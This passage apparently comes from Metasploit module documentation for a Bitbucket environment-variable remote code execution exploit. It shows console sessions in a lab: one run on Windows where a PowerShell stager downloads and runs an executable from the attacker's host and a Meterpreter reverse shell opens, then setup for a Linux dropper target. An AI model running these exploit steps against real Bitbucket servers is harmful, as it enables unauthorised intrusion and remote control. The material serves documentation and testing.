 ```
msf6 exploit(multi/http/bitbucket_env_var_rce) > set verbose true
verbose => true
msf6 exploit(multi/http/bitbucket_env_var_rce) > run

[*] Started reverse TCP handler on 192.168.140.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found version 7.18.1 of Bitbucket
[+] The target appears to be vulnerable.
[*] Retrieving security token
[*] Project creation was successful
[+] Successfully created repository 'GqFji'
[+] Commits added: 99a9d18e3a72d01bbdaac9bd8d84ba97bb3d7dad, 85a051cb3572b13e59816ff51b527706d66ae392
[*] Sending payload
[*] Using URL: http://192.168.140.1:8080/ZOwoRUPRlio
[*] Generated command stager: ["powershell.exe -c Invoke-WebRequest -OutFile .\\xnbrdApP.exe http://192.168.140.1:8080/ZOwoRUPRlio", ".\\xnbrdApP.exe", "del .\\xnbrdApP.exe"]
[*] Client 192.168.140.171 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1237) requested /ZOwoRUPRlio
[*] Sending payload to 192.168.140.171 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1237)
[*] Command Stager progress -  75.19% done (97/129 bytes)
[*] Sending stage (175686 bytes) to 192.168.140.171
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.171:51236) at 2023-03-13 14:29:25 -0500
[*] Command Stager progress -  86.05% done (111/129 bytes)
[*] Command Stager progress - 100.00% done (129/129 bytes)
[*] Changing user name back to 'admin'
[*] Attempting to delete repository 'GqFji'
[+] Repository has been deleted
[*] Now attempting to delete project 'eTzDRa'
[+] Project has been deleted

meterpreter > getuid
Server username: DESKTOP-5JSUGC8\atlbitbucket
meterpreter > sysinfo
Computer        : DESKTOP-5JSUGC8
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x86/windows
```

### Ubuntu 22.04 x64 - Bitbucket `v8.4.0` with mesh.enabled set to false, Linux Dropper

```
msf6 > use exploit/multi/http/bitbucket_env_var_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/http/bitbucket_env_var_rce) > set target 1
target => 1
msf6 exploit(multi/http/bitbucket_env_var_rce) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/bitbucket_env_var_rce) > set rhost 192.168.140.149
rhost => 192.168.140.149
msf6 exploit(multi/http/bitbucket_env_var_rce) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(multi/http/bitbucket_env_var_rce) > set username administrator
username => administrator
msf6 exploit(multi/http/bitbucket_env_var_rce) > set password S3cureP@ssword
password => S3cureP@ssword
```